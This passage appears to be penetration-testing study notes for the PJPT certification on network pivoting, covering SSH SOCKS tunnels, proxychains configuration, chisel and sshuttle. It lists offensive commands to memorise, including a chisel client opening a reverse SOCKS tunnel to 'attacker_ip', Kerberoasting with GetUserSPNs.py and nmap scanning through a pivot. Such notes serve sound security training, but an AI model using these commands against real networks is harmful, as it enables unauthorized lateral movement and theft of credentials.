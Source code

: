 ## Troubleshooting Pivoting

### Common Issues and Solutions
```bash
# Issue: "channel 2: open failed: administratively prohibited"
# Solution: Check SSH config for AllowTcpForwarding

# Issue: SOCKS proxy not working
# Solution: Check proxychains config and verify tunnel
netstat -tlnp | grep 9050
proxychains curl http://httpbin.org/ip

# Issue: DNS resolution through tunnel
# Solution: Use proxy_dns in proxychains config
proxy_dns

# Issue: Slow tunnel performance
# Solution: Enable compression and tune settings
ssh -f -N -D 9050 -C -o Compression=yes user@pivot
```

## PJPT Exam Tips

### Essential Commands to Memorize
```bash
# SSH SOCKS proxy
ssh -f -N -D 9050 -i key user@pivot

# Proxychains usage
proxychains nmap -sT -Pn target
proxychains GetUserSPNs.py domain/user:pass -dc-ip target -request

# Chisel server/client
./chisel server --reverse --port 8000
./chisel client attacker_ip:8000 R:9050:socks

# Sshuttle VPN
sshuttle -r user@pivot 192.168.1.0/24
```

### ProxyChains Configuration Template
```bash
# /etc/proxychains4.conf
dynamic_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks4 127.0.0.1 9050
```
